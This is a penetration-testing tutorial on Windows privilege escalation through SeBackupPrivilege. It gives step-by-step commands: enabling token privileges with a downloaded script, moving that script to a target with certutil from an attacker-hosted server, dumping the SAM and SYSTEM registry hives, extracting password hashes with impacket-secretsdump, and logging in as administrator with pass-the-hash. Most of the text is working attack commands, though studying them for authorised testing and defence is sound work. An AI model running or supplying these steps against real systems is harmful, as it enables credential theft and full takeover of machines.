

### **INTRODUCTION**

SeBackupPrivilege allows a user to back up files and directories. This privilege grants the ability to traverse any folder and list its contents, even if there are no explicit access control entries (ACEs) for the user in the folder's access control list (ACL). It is commonly used by service accounts for backup purposes. Understanding and leveraging this privilege can be crucial for privilege escalation during a penetration test.

### **STEP 1: CHECK CURRENT USER PRIVILEGES**

1.  Check if current user has SeBackupPrivilege privileges by running:  
    `whoami /priv`  
    
    

    **NOTE:** If it is not enabled, proceed to the next step to enable it.

### **STEP 2: ENABLE SEBACKUPPRIVILEGE (OPTIONAL)**

2.  Download the EnableAllTokenPrivs.ps1 script to enable SeBackupPrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  

    

    **NOTE:** Host the script Using Python `python -m http.server 80`
    
3.  Transfer the EnableAllTokenPrivs.ps1 script to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    

    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeTakeOwnershipPrivilege is now enabled  
    `whoami /priv`  
    
    
    

### **STEP 3: EXPLOIT BACKUP SAM & SYSTEM**

1.  Save the registry  
    `reg save hklm\system system.hive`  
    `reg save hklm\sam sam.hive`  
    
    
    
2.  Transfer the sam.hive and system.hive files to the attacker machine via SMB, then use impacket-secretsdump to extract and decode the credentials from these files.  
    `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`  
    
    
    
3.  We can use the Administrator hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:  
    `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:34386a771aaca697f447754e4863d38a administrator@[IP-ADRESS]`  
    
    